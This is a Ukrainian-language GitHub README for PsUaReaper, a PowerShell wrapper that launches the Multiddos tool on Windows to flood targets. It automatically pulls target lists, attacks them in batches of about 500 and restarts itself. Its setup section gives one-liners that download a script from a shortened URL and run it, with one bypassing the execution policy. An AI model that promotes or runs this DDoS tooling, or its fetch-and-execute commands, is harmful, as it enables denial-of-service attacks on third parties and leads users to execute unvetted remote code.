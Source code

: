 # PsUaReaper
PowerShell-враппер для запуску Multiddos на Windows. 
- Не потребує інсталяції додатковий програм, все необхідне розташовується в C:\PsUaReaper
- Не потребує адміністративних прав для запуску
- Сумісніть з Windows 7 SP1
- Автоматичне оновлення цілей

Джерела натхнення:</br>
[KarboDuck](https://github.com/KarboDuck)</br>
[ahovdryk](https://github.com/ahovdryk)</br>

## Перший старт:
1. Найлегший шлях для старих систем (Windows 7, 8, 8.1, 10 до білда 1803):
- Завантажити з офіційного репозиторію останню версію [PowerShell](https://github.com/PowerShell/PowerShell/releases/download/v7.2.4/PowerShell-7.2.4-win-x86.zip)
- Розпакувати архів в будь який каталог і запустити з нього <code>pwsh.exe</code>
- Виконати команду:
```
(new-object System.Net.WebClient).DownloadFile("https://tiny.one/jxr7yadn", "$env:tmp\setup.ps1"); &"$env:tmp\Setup.ps1";ri "$env:tmp\Setup.ps1"
```
2. Windows 10 білд 1803 і новіше:
- Скопіювати команду
```
cmd.exe /c curl -L https://tiny.one/jxr7yadn -o "%tmp%\setup.ps1" && powershell -executionpolicy bypass -file "%tmp%\setup.ps1" && del "%tmp%\setup.ps1"
```
- Натиснути Win+R
- Вставити команду і натиснути Enter

## Важливі зауваження
(!) Наступні запуски можливі з файлу C:\PsUaReaper\Start.cmd</br>
(!) При старті відбувається пошук цілей зі списку KarboDuck</br>
(!) Скрипт працює тільки з унікальними цілям</br>
(!) Перевіряється оновлення PowerShell i Python скриптів</br>
(!) Список цілей розбивається на групи по 500 (+/-) і навантажується почергово протягом 10 хвилин</br>
(!) По завершенню циклу, скрипт зам себе перезапускає</br>
(!) Для завершення необхідно натиснути Ctrl+C</br>
